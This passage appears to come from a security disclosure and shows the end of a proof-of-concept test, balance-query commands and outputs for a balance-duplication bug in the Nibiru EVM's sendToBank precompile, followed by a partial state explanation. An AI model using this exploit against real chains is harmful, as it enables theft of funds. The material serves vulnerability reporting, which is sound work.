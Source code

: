 >         await contract.waitForDeployment();
> 
>         // transfer the amount to contract
>         let tx = await nibi_erc20.transfer(contract, transferAmount);
>         await tx.wait();
> 
>         // call attack
>         tx = await contract.attack();
>         await tx.wait();
> 
>         // show end balance
>         const balance = await nibi_erc20.balanceOf(contract);
>         console.log(`ERC20 Balance of contract after transaction: ${formatUnits(balance, 6)}`);
>     }, 30000) // test is slow, that's why timeout is set to 30s
> })
> ```
> 
> **6. Check recipient balance before test:**
>
> ```sh
> nibid query bank balances nibi1zaavvzxez0elundtn32qnk9lkm8kmcsz44g7xl --denom unibi
> 
> # Result
> # {"denom":"unibi","amount":"8989100000000"}
> ```
> 
> **7. Run Test:**
>
> ```sh
> cd evm-e2e
> npx hardhat clean && npx hardhat compile && npx jest test/poc24.test.ts --verbose
> 
> # Result
> # ERC20 Balance of contract after transaction: 999.999999
> ```
> 
> **8: Check recipient balance after test:**
>
> It has increased by the same 1,000 Nibi from `sendToBank`.
>
> ```sh
> nibid query bank balances nibi1zaavvzxez0elundtn32qnk9lkm8kmcsz44g7xl --denom unibi
> 
> # Result
> # {"denom":"unibi","amount":"8990100000000"}
> ```
> 
> ### Explanation
> **Before POC `sendToBank`:**
> - `cacheCtx` balance: None
> - `evmTxCtx` balance: 1,000 Nibi
> - `stateObjects` `DirtyStorage`: None
> 
> **In evm `CacheCtxForPrecompile`:**
> - `cacheCtx` balance: 1,000 Nibi
> - `evmTxCtx` balance: 1,000 Nibi
> - `stateObjects` `DirtyStorage`: None
> 
> **After POC `sendToBank`:**
> - `cacheCtx` balance: 0 Nibi
> - `evmTxCtx` balance: 1,000 Nibi
> - `stateObjects` `DirtyStorage`: None
> 
> **After POC `transfer`:**